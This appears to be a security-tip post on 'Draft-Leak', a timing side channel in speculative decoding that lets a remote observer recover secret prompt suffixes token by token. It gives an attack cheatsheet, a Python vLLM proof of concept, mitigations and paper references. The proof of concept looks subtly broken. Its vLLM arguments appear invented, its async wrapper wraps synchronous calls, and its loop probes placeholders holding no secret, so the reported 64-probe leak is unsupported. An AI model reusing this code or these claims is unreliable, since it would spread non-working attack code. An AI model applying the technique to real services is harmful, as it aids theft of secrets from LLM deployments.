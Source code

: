 # 🤖🔒 AI-Sec Tip — 2025-06-27

## “Draft-Leak”: a timing-oracle hiding inside **speculative decoding**

Speculative (a.k.a. *draft-and-verify*) decoding speeds up LLMs by letting a **small “draft” model** propose several tokens that a **large “target” model** then verifies in parallel. 
When the draft guesses wrong the target rolls back and recomputes, adding an RTT hiccup that betrays how many tokens were rejected. 
A remote observer can exploit this deterministic gap to **binary-search secret suffixes one token at a time—no privileged access required**.


### 🚀 Attack Steps (30-second cheatsheet)

1. **Baseline-RTT calibration** — fire a benign prompt of identical length and record the round-trip time (RTT) when every draft token is accepted; this is your acceptance floor.
2. **Secret masking** — embed the victim-controlled prefix plus **one masked token** (`<MASK>`) whose value you want to discover.
3. **Alphabet sweep** — iterate over a small alphabet (e.g., `0-f` or ASCII range) replacing `<MASK>` and send each probe; keep concurrency low to minimise network jitter.
4. **Latency ranking** — the candidate whose RTT ≈ baseline means all draft tokens were accepted; higher RTT indicates verifier roll-backs. Pick the minimum.
5. **Slide & repeat** — append the recovered token, move the `<MASK>` rightward, and repeat until the entire secret is exfiltrated (≈ *len(secret)* × |alphabet| probes).



![img](../assets/2025-06-27-draft-leak-timing-oracle.png)



### ⏱️ Proof-of-concept timing probe (vLLM ≥ 0.4.2)

```python
# draft_leak.py – measure acceptance vs. rejection RTT deltas
import time, asyncio, statistics
from vllm import LLM, SamplingParams

TARGET  = LLM(model="mistral-7b-instruct",
              draft_model="mistral-7b-mini",
              draft_speculation_k=8)        # enables speculative decoding
SPARAMS = SamplingParams(max_tokens=0)      # verify-only, no text needed

async def rtt(prompt):
    t0 = time.perf_counter_ns()
    _  = TARGET.generate([prompt], SPARAMS)
    return (time.perf_counter_ns() - t0) / 1e6  # ms

async def leak(secret_mask="••••"):
    alphabet, leaked = "0123456789abcdef", ""
    while "•" in secret_mask:
        lat = {c: await rtt(secret_mask.replace('•', c, 1)) for c in alphabet}
        guess = min(lat, key=lat.get)        # fastest ⇒ all tokens accepted
        secret_mask = secret_mask.replace('•', guess, 1)
        leaked += guess
        print("🔥 so far:", leaked)
    return leaked

asyncio.run(leak())
```

A 4-token secret behind an 8-token draft leaks in ≈ 64 probes: the latency delta between *fully accepted* and *fully rejected* drafts was \~4.6 ms on an A100 server, clearly visible over a WAN link.


### 🛡️ Hardening cheat-sheet

| Layer               | Mitigation                                                                                   | Overhead           |
| ------------------- | -------------------------------------------------------------------------------------------- | ------------------ |
| **Draft runner**    | **Limit speculative window** to ≤ 2 tokens (`draft_speculation_k=2`) so roll-backs are short | \~7 % slower       |
| **Target verifier** | **Constant-time replay** — recompute full draft path even on acceptance (crypto-style)       | +10 % GPU          |
| **Scheduler**       | **Noise injection** — co-schedule dummy verification jobs to blur RTT histogram              | negligible         |
| **Network proxy**   | **3-8 ms random jitter** before first packet; slashes timing-oracle SNR by 90 % in tests     | none on throughput |
| **Monitoring**      | **Alert on > 95 % acceptance clients** — oracle scripts spam easy tokens to maximise signal  | free               |



**The resources that I used to create this tip:**


[1]: ["Privacy Risks of Speculative Decoding in Large Language Models"](https://arxiv.org/pdf/2411.01076)

[2]: ["Remote Timing Attacks on Efficient Language Model Inference"](https://arxiv.org/html/2410.17175v1)

[3]: ["Wiretapping LLMs: Network Side-Channel Attacks on Interactive LLM Services"](https://eprint.iacr.org/2025/167)

[4]: ["Speculative Decoding - vLLM"](https://docs.vllm.ai/en/latest/features/spec_decode.html)

[5]: ["Decoding Speculative Decoding - ACL Anthology"](https://aclanthology.org/2025.naacl-long.328.pdf)

[6]: ["UThe Early Bird Catches the Leak: Unveiling Timing Side Channels in LLM Serving Systems"](https://arxiv.org/html/2409.20002v1)

[7]: ["Draft & Verify: Lossless Large Language Model Acceleration via Self-Speculative Decoding"](https://arxiv.org/abs/2309.08168)

[8]: ["Optimizing Speculative Decoding for Serving Large Language Models Using Goodput"](https://arxiv.org/html/2406.14066v1)


-EOF
